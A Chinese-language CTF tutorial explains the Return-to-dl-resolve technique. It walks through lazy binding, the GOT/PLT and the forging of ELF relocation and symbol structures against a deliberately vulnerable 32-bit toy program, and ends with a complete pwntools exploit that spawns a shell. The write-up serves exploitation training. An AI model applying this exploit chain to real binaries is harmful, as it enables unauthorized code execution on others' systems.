

本文介绍一种CTF中的高级rop技巧-Return-to-dl-resolve，不久前的0CTF中的babystack和blackhole就用到了这个技巧。

## 预备知识
在开始本文前希望大家能预先了解一下什么叫延迟绑定

好了，我们开始

假设存在以下程序：

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

当程序第一次执行read函数时,先执行

    →  0x804841f <fun+20> call   0x80482e0 <read@plt>
       ↳   	0x80482e0 <read@plt+0> jmp	DWORD PTR ds:0x804a00c <--先跳到0x804a00c指向的地址处执行
       		0x80482e6 <read@plt+6> push 0x0 <---此时入栈的0是JMPREL段（对应 .rel.plt节）的read的Elf32_Rel的相对偏移,即rel_offset
       		0x80482eb <read@plt+11>jmp	0x80482d0

程序会跳到0x804a00c指向的地址处执行，第一次调用函数时，0x804a00c中存的就是下一句指令push 0x0的地址0x80482e6

    gef➤  x/x 0x804a00c
    0x804a00c:	0x080482e6

继续执行，先将0x0压栈，再跳到0x80482d0处执行，0x80482d0处的代码为

    .plt:080482D0 push	ds:dword_804A004 <---此时入栈的是JMPREL段的基地址
    .plt:080482D6 jmp 	ds:dword_804A008

0x804a000是got表的起始地址。

GOT表的前三项有特殊含义:
第一项是.dynamic段的地址，第二个是link_map的地址，第三个是_dl_runtime_resolve函数的地址，第四项开始就是函数的GOT表了，在这里第一项就是read@got了

    .got.plt:0804A000 _GLOBAL_OFFSET_TABLE_ dd offset _DYNAMIC
    .got.plt:0804A004 dword_804A004   dd 0; DATA XREF: sub_80482D0↑r
    .got.plt:0804A008 dword_804A008   dd 0; DATA XREF: sub_80482D0+6↑r
    .got.plt:0804A00C off_804A00C dd offset read  ; DATA XREF: _read↑r

以上代码就相当于执行_dl_runtime_resolve(link_map,rel_offset)

rel是个结构体：

    typedef struct
    {
      Elf32_Addr	r_offset;   /*  这个值就是got表的虚拟地址 */
      Elf32_Word	r_info; /* .dynsym节区符号表索引 */
    } Elf32_Rel;
    #define ELF32_R_SYM(val)((val) >> 8)
    #define ELF32_R_TYPE(val)   ((val) & 0xff)

rel结构存在于.rel.plt段中

.rel.plt段基址使用objdump -s -j .rel.plt ./x86命令来查看

_dl_runtime_resolve先根据rel_offset定位到这个rel结构，再根据r_info定位到.dynsym节区中的动态链接符号表，符号表由Elf32_Sym结构表示：

    typedef struct
    {
    Elf32_Word	st_name;   /* Symbol name (string tbl index) 这个就是*/
    Elf32_Addr	st_value;  /* Symbol value */
    Elf32_Word	st_size;   /* Symbol size */
    unsigned char 	st_info;   /* Symbol type and binding */
    unsigned char 	st_other;  /* Symbol visibility under glibc>=2.2 */
    Elf32_Section 	st_shndx;  /* Section index */
    } Elf32_Sym;

.dynsym基地址使用objdump -s -j .dynsym ./x86来获取。

其中第一项st_name就是其对应的函数名字符串到.dynstr节起始的偏移值。函数定位到Elf32_Sym结构再根据st_name定位到.dynstr中的函数名

.dynstr节包含了动态链接的字符，字符串是直接以ASCII码的形式储存的

.dynstr的基地址由objdump -s -j .dynstr ./x86来获得。
    
    $ objdump -s -j .dynstr ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s
     804822c 7464696e 5f757365 64007265 6164005f  tdin_used.read._
    
    gef➤  x/5s 0x804821c
    0x804821c:	""
    0x804821d:	"libc.so.6"
    0x8048227:	"_IO_stdin_used"
    0x8048236:	"read"
    0x804823b:	"__libc_start_main"

最终找到了函数名，程序根据函数名找到函数的真正地址，写入read@got

总结一些流程：

    index_arg(push xx)——>.rel.plt(Elf32_Rel)——>.dynsym(Elf32_Sym)——>.dynstr(st_name)

## 利用思路

事实上，虚拟地址是通过最后一个箭头，即从st_name得来的，只要我们能够修改这个st_name就可以执行任意函数。比如把st_name的内容修改成为"system"。

而index_arg是我们控制的，我们需要做的是通过一系列操作。把index_arg可控转化为st_name可控。

我们需要在一个可写地址上构造一系列伪结构就可以完成利用

##  漏洞利用

就以以下这个程序为例

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

我们可以在gift中构造我们需要的伪结构

### 1.计算index_arg控制.rel.plt(Elf32_Rel)结构体位置

index_arg是我们直接通过压栈参数进行控制的，使用要伪造的目标地址减去.rel.plt段基地址就是index_arg的值

    .bss:0804A040 public gift
    .bss:0804A040 giftdb? ;
    .bss:0804A041 db? ;
    .bss:0804A042 db? ;
    
    $ objdump -s -j .rel.plt ./x86
    ./x86: file format elf32-i386
    Contents of section .rel.plt:
     08048298 0ca00408 07010000 10a00408 07030000  ................

index_arg = 0x0804A040 - 0x08048298 = 0x1da8

### 2.构造.rel.plt(Elf32_Rel)控制.dynsym(Elf32_Sym)

    r_info的计算方法是
    1.n = (欲伪造的地址-.dynsym基地址)/0x10
    2.r_info = n<<8

    $ objdump -s -j .dynsym ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynsym:
     80481cc 00000000 00000000 00000000 00000000  ................

	n = ((0x0804A040 + 4*4) - 0x080481cc)/0x10
	r_info = n<<8 = 0x1e800

	还需要过#define ELF32_R_TYPE(val)   ((val) & 0xff)宏定义，ELF32_R_TYPE(r_info)=7，因此
	r_info = 0x1e800 + 0x7 = 0x1e807

### 3.构造.dynsym(Elf32_Sym)控制.dynstr(st_name)

    $objdump -s -j .dynstr ./x86
    ./x86: file format elf32-i386
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s

	st_name = (0x0804A040 + 8 + 24) - 0x804821c = 0x1e44

### 4. .dynstr写入system完成利用

直接写入ASCII形式的system即可

最终的gift中排布形式如下

## exp

    from pwn import*
    p = process('./x86')
    #context.log_level = 'debug'
    elf = ELF('./x86')
    gift = 0x0804A040
    
    payload = 0x28*'a' + 4*'a'
    payload +=  p32(elf.plt['read']) + p32(0x0804840B)
    payload += p32(0) + p32(gift) + p32(17*4)
    
    p.sendline(payload)
    
    payload = ''
    payload += p32(0x0804a00c) + p32(0x1e807)
    payload += p32(0x1e44)*2
    payload += p32(0) + p32(0x00000012)*3
    payload += 'system\x00\x00'
    payload += 'system\x00\x00'
    payload += '/bin/bash\x00'
    
    p.sendline(payload)
    
    payload = 0x28*'a' + 4*'a'
    payload += p32(0x080482D0) + p32(0x1da8) + p32(0x0804840B) + p32(gift + 12*4)
    p.sendline(payload)
    
    p.interactive()

这个技巧主要用在没有libc.so以及程序中没有输出函数的情况下